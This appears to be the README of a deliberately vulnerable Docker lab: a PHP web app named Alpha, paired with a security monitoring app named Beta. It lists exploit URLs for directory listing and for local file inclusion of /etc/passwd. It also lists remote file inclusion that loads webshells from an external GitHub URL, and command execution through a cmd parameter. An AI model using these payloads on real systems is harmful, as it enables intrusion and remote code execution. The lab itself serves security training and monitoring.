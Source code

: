 # Alpha and Beta app

Alpha is a strong web app with minimum feature. And Beta is monitoring app for security purposes.

### Install app

* install docker-compose
* create instance docker
```
sudo docker-compose build
sudo docker-compose up -d
```
* run script ```sudo bash start.sh```

### Alpha app

* **Alpha web page** - adjust IP address with your own Docker IP address
```
http://172.17.0.1/index.php
```
* **Directory Listing**
```
http://172.17.0.1/verysupersecret/
```
* **Local File Inclution**
```
http://172.17.0.1/index.php?file=../../../../../../../etc/passwd
```
* **Remote File Inclution**
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/phpinfo.php
```
* **Remote Code Execution** - need to trigger RFI first then add ```&cmd=id``` ```&cmd=whoami ```
```
http://172.17.0.1/index.php?file=https://raw.githubusercontent.com/dxnboy/redteam/master/webshell/simple.php&cmd=id
```

### Beta app

* **Beta web app**
```
http://172.17.0.1:8888/index.php
```
